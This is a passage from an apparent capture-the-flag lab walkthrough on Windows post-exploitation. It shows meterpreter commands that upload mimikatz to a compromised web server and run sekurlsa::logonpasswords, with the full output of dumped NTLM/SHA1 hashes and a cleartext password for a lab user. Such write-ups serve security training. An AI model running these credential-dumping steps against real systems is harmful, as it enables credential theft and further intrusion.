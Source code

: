 **Note**: We can use another CLSID `-c {bb6df56b-cace-11dc-9992-0019b93a3a84}`, if our payload is not working.

The root flag is located in `C:\Users\Administrator\Desktop`.

### Post Exploitation

Mimikatz can be used to dump cached passwords. 

```bash
meterpreter > cd C:/inetpub/wwwroot/wordpress/wp-content/uploads
meterpreter > lcd /home/kali/Downloads
meterpreter > upload mimikatz.exe
[*] uploading  : /home/kali/Downloads/mimikatz.exe -> mimikatz.exe
[*] Uploaded -1.00 B of 1.25 MiB (0.0%): /home/kali/Downloads/mimikatz.exe -> mimikatz.exe
[*] uploaded   : /home/kali/Downloads/mimikatz.exe -> mimikatz.exe
```

We execute mimikatz and use the sekurlsa command to extract logon passwords:

```powershell
PS C:\inetpub\wwwroot\wordpress\wp-content\uploads> ./mimikatz.exe
./mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 217126 (00000000:00035026)
Session           : Interactive from 1
User Name         : sandra
Domain            : MEGACORP
Logon Server      : PATHFINDER
Logon Time        : 3/11/2021 7:27:25 PM
SID               : S-1-5-21-1035856440-4137329016-3276773158-1105
	msv :	
	 [00000003] Primary
	 * Username : sandra
	 * Domain   : MEGACORP
	 * NTLM     : 29ab86c5c4d2aab957763e5c1720486d
	 * SHA1     : 8bd0ccc2a23892a74dfbbbb57f0faa9721562a38
	 * DPAPI    : f4c73b3f07c4f309ebf086644254bcbc
	tspkg :	
	wdigest :	
	 * Username : sandra
	 * Domain   : MEGACORP
	 * Password : (null)
	kerberos :	
	 * Username : sandra
	 * Domain   : MEGACORP.LOCAL
	 * Password : Password1234!
	ssp :	
	credman :	

Authentication Id : 0 ; 65638 (00000000:00010066)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 3/11/2021 7:26:08 PM
SID               : S-1-5-90-0-1
```